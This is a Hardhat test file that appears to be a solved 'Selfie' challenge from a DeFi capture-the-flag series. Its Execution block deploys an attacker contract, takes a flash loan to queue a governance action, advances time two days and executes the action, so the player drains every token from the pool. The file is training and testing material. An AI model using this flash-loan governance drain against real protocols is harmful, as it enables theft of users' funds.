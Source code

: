 ```
        expect(await governance.getActionCounter()).to.eq(1);

        // Deploy the pool
        pool = await (await ethers.getContractFactory('SelfiePool', deployer)).deploy(
            token.address,
            governance.address    
        );
        expect(await pool.token()).to.eq(token.address);
        expect(await pool.governance()).to.eq(governance.address);
        
        // Fund the pool
        await token.transfer(pool.address, TOKENS_IN_POOL);
        await token.snapshot();
        expect(await token.balanceOf(pool.address)).to.be.equal(TOKENS_IN_POOL);
        expect(await pool.maxFlashLoan(token.address)).to.eq(TOKENS_IN_POOL);
        expect(await pool.flashFee(token.address, 0)).to.eq(0);

    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const attacker = await (await ethers.getContractFactory('SelfieAttacker', player)).deploy(
            governance.address,
            pool.address,
            token.address
        );

        const flashLoanTx = await attacker.connect(player).executeFlashLoan();
        await flashLoanTx.wait();

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days

        const executeActionTx = await attacker.connect(player).executeAction();
        await executeActionTx.wait();
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player has taken all tokens from the pool
        expect(
            await token.balanceOf(player.address)
        ).to.be.equal(TOKENS_IN_POOL);  
        expect(
            await token.balanceOf(pool.address)
        ).to.be.equal(0);
    });
});

```